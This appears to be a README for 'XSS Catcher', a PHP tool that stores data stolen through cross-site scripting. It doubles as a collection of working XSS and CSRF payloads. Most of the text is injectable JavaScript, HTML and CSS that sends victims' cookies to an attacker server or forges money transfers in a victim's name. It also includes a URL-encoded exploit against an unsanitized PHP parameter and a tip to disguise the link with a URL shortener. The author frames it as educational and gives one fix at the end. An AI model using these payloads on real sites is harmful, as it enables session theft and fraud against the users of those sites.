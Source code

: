 # XSS Catcher

Simple API for storing all incoming XSS requests.

Every incoming XSS request must contain `site` and `data` (i.e. stolen data) request parameters. Additionaly, you can add the `info` request parameter.

**This topic is very broad and only few client side injections were covered. Keep in mind that XSS is not limited only to JavaScript.**

Play with the given examples and make your own (possibly shorter).

Tested on XAMPP for Windows v7.3.7 (64 bit) with Chrome v77.0.3865.120 (64-bit) and Firefox v70.0 (64-bit).

Made for educational purposes. I hope it will help!

## How to Run

Import ['\\db\\xss_catcher.sql'](https://github.com/ivan-sincek/xss-catcher/blob/master/db/xss_catcher.sql) to your database server.

Copy all the content from ['\\src\\'](https://github.com/ivan-sincek/xss-catcher/tree/master/src) to your server's web root directory (e.g. to '\\xampp\\htdocs\\' on XAMPP).

Change the database settings inside ['\\src\\php\\config.ini'](https://github.com/ivan-sincek/xss-catcher/tree/master/src/php/config.ini) as necessary.

Navigate to your database panel with your preferred web browser.

## Cross-Site Scripting

Usually used to steal data or to modify a web page.

**Cookies must be missing the HttpOnly flag in order for you to steal them.**

Steal HTTP cookies by injecting the following JavaScript code:

```xhtml
<script>var xhr = new XMLHttpRequest(); xhr.open('POST', 'https://myserver.com/store.php', true); xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded'); xhr.send('site=' + encodeURIComponent(location.hostname + location.pathname) + '&data=' + encodeURIComponent(document.cookie));</script>

<script>var xhr = new XMLHttpRequest(); xhr.open('POST', 'https://myserver.com/store.php', true); xhr.send('{\"site\": \"' + encodeURIComponent(location.hostname + location.pathname) + '\", \"data\": \"' + encodeURIComponent(document.cookie) + "\"}");</script>
```

First example above will send an HTTP POST request to your server with user-defined parameters as form-data. Opt for this example whenever possible.

To send user-defined parameters as form-data, you must add the `Content-Type: application/x-www-form-urlencoded` HTTP request header.

Second example above will send an HTTP POST request to your server with raw data encoded in JSON.

Steal HTTP cookies by injecting the following HTML code:

```xhtml
<img src="https://github.com/favicon.ico" alt="xss" onload="var xhr = new XMLHttpRequest(); xhr.open('POST', 'https://myserver.com/store.php', true); xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded'); xhr.send('site=' + encodeURIComponent(location.hostname + location.pathname) + '&data=' + encodeURIComponent(document.cookie));" hidden="hidden">

<img src="https://github.com/favicon.ico" alt="xss" onload="this.src = 'https://myserver.com/store.php?site=' + encodeURIComponent(location.hostname) + location.pathname + '&data=' + encodeURIComponent(document.cookie);" hidden="hidden">
```

First example above will send an HTTP POST request to your server with user-defined parameters as form-data.

Second example above will send an HTTP GET request to your server with user-defined parameters in a query string (i.e. in a URL).

## Cross-Site Request Forgery

Does not necessarily need to steal or modify anything. The goal is to execute a forged query string, commonly in the name of signed in user.

**Try to figure out what kind of data does the backend server accept before you try to forge/send anything. Is it a query string, form-data, raw data encoded in JSON, etc.?**

Plant a forged request by injecting the following JavaScript code:

```xhtml
<script>var xhr = new XMLHttpRequest(); xhr.open('POST', 'https://target.com/transfer.php', true); xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded'); xhr.send('recipient=eve&amount=9000');</script>
```

Example above will send an HTTP POST request to the target server in a victim's name with user-defined parameters as form-data.

Plant a forged request whilst stealing a web form token by injecting the following JavaScript code:

```xhtml
<script>window.onload = function() { var xhr = new XMLHttpRequest(); xhr.open('POST', 'https://target.com/transfer.php', true); xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded'); xhr.send('recipient=eve&amount=9000&token=' + encodeURIComponent(document.getElementsByName('token')[0].value)); }</script>

<script>window.onload = function() { var xhr = new XMLHttpRequest(); xhr.open('GET', 'https://target.com/transfer.php?recipient=eve&amount=9000&token=' + encodeURIComponent(document.getElementsByName('token')[0].value), true); xhr.send(); }</script>
```

First example above will send an HTTP POST request to the target server in a victim's name with user-defined parameters as form-data.

Second example above will send an HTTP GET request to the target server in a victim's name with user-defined parameters in a query string (i.e. in a URL).

To steal a web form token or any other web form data, you must wait for the web form to fully render/load. You can do that by calling the `window.onload` event.

Plant a forged request by injecting the following HTML code:

```xhtml
<img src="https://target.com/transfer.php?recipient=eve&amount=9000" alt="xss" hidden="hidden">

<img src="https://github.com/favicon.ico" alt="xss" style="background-image: url('https://target.com/transfer.php?recipient=eve&amount=9000');" hidden="hidden">
```

Both examples above will send an HTTP GET request to the target server in a victim's name with user-defined parameters in a query string (i.e. in a URL).

Plant a forged request by injecting the following CSS code:

```xhtml
<style>div { background-image: url('https://target.com/transfer.php?recipient=eve&amount=9000'); }</style>
```

Example above will send an HTTP GET request to the target server in a victim's name with user-defined parameters in a query string (i.e. in a URL).

## Proof of Concept - No Input Sanitization

This proof of concept shows how to steal cookies through unsanitized request parameter.

Vulnerable code:

```xhtml
<script>var language = '<?php if (isset($_GET["language"])) { echo $_GET["language"]; } ?>';</script>
```

Expected use:

```xhtml
<script>var language = 'en';</script>
```

User-supplied data:

```fundamental
en'; var xhr = new XMLHttpRequest(); xhr.open('POST', 'https://myserver.com/store.php', true); xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded'); xhr.send('site=' + encodeURIComponent(location.hostname + location.pathname) + '&data=' + encodeURIComponent(document.cookie)); var test = '
```

**Always make sure to properly close the surrounding code.**

Encode your code to the URL encoded format [here](https://www.urlencoder.org).

Final XSS request:

```fundamental
https://localhost/welcome.php?language=en%27%3B%20var%20xhr%20%3D%20new%20XMLHttpRequest%28%29%3B%20xhr.open%28%27POST%27%2C%20%27https%3A%2F%2Fmyserver.com%2Fstore.php%27%2C%20true%29%3B%20xhr.setRequestHeader%28%27Content-Type%27%2C%20%27application%2Fx-www-form-urlencoded%27%29%3B%20xhr.send%28%27site%3D%27%20%2B%20encodeURIComponent%28location.hostname%20%2B%20location.pathname%29%20%2B%20%27%26data%3D%27%20%2B%20encodeURIComponent%28document.cookie%29%29%3B%20var%20test%20%3D%20%27
```

You can also shorten your query string (i.e. your URL) with [Bitly](https://bitly.com).

Solution:

```xhtml
<script>var language = '<?php if (isset($_GET["language"])) { echo htmlentities($_GET["language"], ENT_QUOTES, "UTF-8"); } ?>';</script>
```

## Images

![Database](https://github.com/ivan-sincek/xss-catcher/blob/master/img/db.jpg)
